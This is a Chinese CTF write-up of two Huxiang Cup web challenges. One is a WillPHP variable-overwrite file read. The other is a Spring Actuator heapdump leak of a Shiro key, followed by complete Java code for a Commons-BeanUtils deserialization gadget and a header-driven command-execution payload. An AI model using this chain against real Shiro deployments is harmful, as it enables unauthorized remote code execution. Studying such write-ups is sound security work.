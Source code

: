 # 湖湘杯WP



## web1



前半段是一个变量覆盖，题目给出assign其实已经很显眼了，要结合view一起看，这个类似TP的那个变量覆盖

我们可以先看到View这个文件的代码：

```php
<?php
/**
 * 框架视图类
 * @copyright 2020-2021 WillPHP
 * @author NoMind<24203741@qq.com/113344.com>
 * @version WillPHPv2
 * @since 2021-09-16
 */ 
namespace wiphp;
//defined('WPHP_URI') or die('Access Denied');
class View {
	private static $vars = [];
	private function __construct() {}
	private function __clone() {}
	public static function assign($name, $value = null) {
		if ($name != '') self::$vars[$name] = $value;
	} 
	private static function getViewFile($file = '') {
		$path = __MODULE__;
		if ($file == '') {
			$file = __ACTION__;
		} elseif (strpos($file, ':')) {
			list($path, $file) = explode(':', $file);
		} elseif (strpos($file, '/')) {
			$path = '';
		}
		$path = strtolower($path);
		$pfile = ltrim($path.'/'.$file, '/').'.html';		
		if (!THEME_ON) {
			$vfile = PATH_VIEW.'/'.$pfile;
		} else {
			$vfile = PATH_VIEW.'/'.__THEME__.'/'.$pfile;
			if (file_exists($vfile)) {
				$vfile = PATH_VIEW.'/default/'.$pfile;
			}
		}
		return $vfile;			
	}	
	public static function fetch($file = '', $vars = []) {
		if (!empty($vars)) self::$vars = array_merge(self::$vars, $vars);			
		$viewfile = self::getViewFile($file);
		if (file_exists($viewfile)) {
			array_walk_recursive(self::$vars, 'self::parseVars'); //处理输出
			define('__RUNTIME__', round((microtime(true) - START_TIME) , 4));	
			Template::render($viewfile, self::$vars);
		} else {
			App::halt($file.' 模板文件不存在。');
		}
	}	
	//删除反斜杠
	private static function parseVars(&$value, $key) {
		$value = stripslashes($value);
	}
}
```



当我们调用assign和view的时候其实分别会调用到fetch这两个函数，当我们调用assign对vars进行了一次赋值，而在调用fetch的时候会进入到Template::render($viewfile, self::$vars);当中

跟进两次之后会在Template找到如下：

![image-20211115115049058](https://gitee.com/yyssllz/pic/raw/master/image-20211115115049058.png)



很明显的变量覆盖，下面还紧跟了一个cfile，这样的话前半段很显然就是用cfile可以达成任意文件读取的效果

![image-20211115115841088](https://gitee.com/yyssllz/pic/raw/master/image-20211115115841088.png)

，后半段利用pearcmd即可，这里在我[别的文章](https://github.com/ysllz/Blog/issues/15)里面已经写过了故不再赘述了



## web2

又又又是JAVA，又是不写前端的JAVA，和深育杯那个一样我都快看吐了，因为靶机已经关了所以基本只能靠口述了

pentest in Autumm因为pom中存在这个依赖，可以访问到actuator路由，之后能够找到heapdump，利用非授权访问吧内存文件dump下来 

```
;/actuator/heapdump
```

 https://www.cnblogs.com/icez/p/Actuator_heapdump_exploit.html 
 
 ![img](https://gitee.com/yyssllz/pic/raw/master/KsMoxv6EHkh12xgg.png!thumbnail) 能够找到key：![img](https://gitee.com/yyssllz/pic/raw/master/xt8Gj9x7Y8sbgbFz.png!thumbnail)跟着文章复现一下得到：POtxXgM0EC42xSvJ4CZQDw== 网上找了工具一把锁：https://github.com/j1anFen/shiro_attack![img](https://uploader.shimo.im/f/AiWFxk0AA3MFH2ch.png!thumbnail?accessToken=eyJhbGciOiJIUzI1NiIsImtpZCI6ImRlZmF1bHQiLCJ0eXAiOiJKV1QifQ.eyJhdWQiOiJhY2Nlc3NfcmVzb3VyY2UiLCJleHAiOjE2MzY5NDkxMDgsImciOiJjeXhjUWczcXd2NlJKZDNKIiwiaWF0IjoxNjM2OTQ4ODA4LCJ1c2VySWQiOjI4MDg0NzYzfQ.cAi3GvNBuaVGb_flJ82-tPtWB6IBiO2-hr-76RBX__Y)

后半段除了一把梭其实也可以用深育杯的🔒出来，为什么呢，因为是这道题目一样的，有CB链但是没有CC，这样的话应该也可以，但是毕竟可惜的是当时交完去看XSS了没有功夫再试试看了



```java
package com.cb;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.shiro.codec.Base64;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;

import java.util.Comparator;
import java.util.PriorityQueue;
//byte[] code = ClassPool.getDefault().get("exp").toBytecode();
public class cb {
    public static void setFieldValue(Object obj,String fieldname,Object value)throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(obj,value);
    }

    public static void main(String[] args) throws Exception{
        //创建TemplateImpl 对象动态加载字节码
        byte[] code = ClassPool.getDefault().get("com.cb.exp").toBytecode();
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj,"_name","HelloTemplatesImpl");
        setFieldValue(obj,"_class",null);
        setFieldValue(obj,"_tfactory",new TransformerFactoryImpl());
        setFieldValue(obj,"_bytecodes",new byte[][]{code});

        //创建BeanComparator
        Comparator comparator = new BeanComparator(null,String.CASE_INSENSITIVE_ORDER);

        //创建PriorityQueue实例
        PriorityQueue priorityQueue = new PriorityQueue(2,comparator);
        priorityQueue.add("1");
        priorityQueue.add("2");
        //设置属性
        setFieldValue(comparator,"property","outputProperties");
        setFieldValue(priorityQueue, "queue",new Object[]{obj,obj});

        ByteArrayOutputStream baor = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baor);
        oos.writeObject(priorityQueue);
        oos.close();
//        System.out.println(new String(Base64.getEncoder().encode(baor.toByteArray())));
        byte[] key = Base64.decode("POtxXgM0EC42xSvJ4CZQDw==");
        AesCipherService aes = new AesCipherService();
        ByteSource ciphertext = aes.encrypt(baor.toByteArray(), key);
        System.out.printf(ciphertext.toString());

    }
}

```

exp为：

```java
package com.cb;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.lang.reflect.Method;
import java.util.Scanner;

public class exp extends AbstractTranslet {
    static {
        try {
            Class c = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.RequestContextHolder");
            Method m = c.getMethod("getRequestAttributes");
            Object o = m.invoke(null);
            c = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.ServletRequestAttributes");
            m = c.getMethod("getResponse");
            Method m1 = c.getMethod("getRequest");
            Object resp = m.invoke(o);
            Object req = m1.invoke(o); // HttpServletRequest
            Method getWriter = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.ServletResponse").getDeclaredMethod("getWriter");
            Method getHeader = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.http.HttpServletRequest").getDeclaredMethod("getHeader",String.class);
            getHeader.setAccessible(true);
            getWriter.setAccessible(true);
            Object writer = getWriter.invoke(resp);
            String cmd = (String)getHeader.invoke(req, "cmd");
            String[] commands = new String[3];
            String charsetName = System.getProperty("os.name").toLowerCase().contains("window") ? "GBK":"UTF-8";
            if (System.getProperty("os.name").toUpperCase().contains("WIN")) {

                commands[0] = "cmd";
                commands[1] = "/c";
            } else {

                commands[0] = "/bin/sh";
                commands[1] = "-c";
            }
            commands[2] = cmd;
            writer.getClass().getDeclaredMethod("println", String.class).invoke(writer, new Scanner(Runtime.getRuntime().exec(commands).getInputStream(),charsetName).useDelimiter("\\A").next());
            writer.getClass().getDeclaredMethod("flush").invoke(writer);
            writer.getClass().getDeclaredMethod("close").invoke(writer);
        }
        catch (Exception e){

        }

    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```


